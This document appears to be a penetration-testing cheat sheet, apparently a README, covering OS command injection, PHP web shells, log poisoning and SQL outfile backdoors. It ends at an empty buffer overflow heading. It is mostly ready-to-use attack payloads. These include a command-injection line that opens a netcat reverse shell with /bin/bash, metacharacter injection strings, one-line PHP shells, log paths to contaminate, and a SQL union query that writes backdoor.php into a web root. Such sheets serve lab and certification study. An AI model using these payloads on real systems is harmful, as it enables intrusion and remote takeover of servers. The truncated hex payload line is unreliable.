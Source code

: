````

**PING HOST:\>** ```127.0.0.1& nc 10.10.10.1 443 -e /bin/bash```

Shell Meta-Character Examples:
#### Windows and Unix
```
& whoami 	
&& whoami
| whoami 
|| whoami
%0a+whoami   (“\n” new line character)
```
#### Unix
```
; whoami
%0d+whoami    (“\r” carriage return character)
```
#### Windows
```
%1a+whoami   (magic windows character)
```
#### Unix-only inline execution of an injected command within the original command
```
`whoami`
$(whoami)
```
https://portswigger.net/web-security/os-command-injection


# Remote Code Execution… now for a shell
#### PHP In-Line Shell
```<?php echo shell_exec($_GET['cmd']);?>```

```<?php echo system($_REQUEST['cmd']); ?>```

```<?php echo "\n\n"; passthru($_GET['cmd']); ?>```

#### Log Contamination 
Contaminate log files with the php shell, with netcat or burp repeater; the following are good locations:
```
/var/log/apache2/access.log
/var/log/httpd/access_log
/var/log/httpd-access.log
/proc/self/fd/xx
/proc/self/environ
https://www.exploit-db.com/papers/12886
```

#### SQL union outfile 
```
http://10.11.1.35/comment.php?id=738 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

```
cat revshell.php | xxd -ps | tr -d '\n'

Select 0x178d35c2348e79f238794ab134689a in outfile /var/www/html/shell.php
```



# Buffer Overflow - Exploit Development
Determine buffer needed to crash application.

````